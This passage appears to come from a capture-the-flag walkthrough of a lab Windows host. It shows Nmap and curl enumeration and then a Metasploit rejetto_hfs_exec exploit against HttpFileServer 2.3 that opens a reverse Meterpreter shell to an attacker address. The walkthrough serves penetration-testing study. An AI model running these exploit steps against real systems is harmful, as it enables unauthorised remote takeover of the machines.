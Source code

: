 **Output:**
```
Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-03 10:00 UTC
Nmap scan report for 10.10.10.8
Host is up (0.045s latency).
Not shown: 991 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Step 2: Web Service Enumeration
Check the web service for version information.

**Command/Code:**
```bash
curl http://10.10.10.8/
```

**Output:**
```
<html>
<head>
<title>HFS 2.3</title>
</head>
<body>
<h1>HttpFileServer 2.3</h1>
</body>
</html>
```

### Step 3: HFS Exploitation
Use Metasploit to exploit the HFS vulnerability.

**Command/Code:**
```bash
msfconsole
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS 10.10.10.8
set LHOST 10.10.14.2
exploit
```

**Output:**
```
[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.8:80 - Connecting to the server...
[*] 10.10.10.8:80 - Sending exploit...
[*] Sending stage (175174 bytes) to 10.10.10.8
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.8:49158) at 2024-09-03 10:05:23 +0000
```

### Step 4: Post-Exploitation
Once we have a Meterpreter session, gather information and find flags.
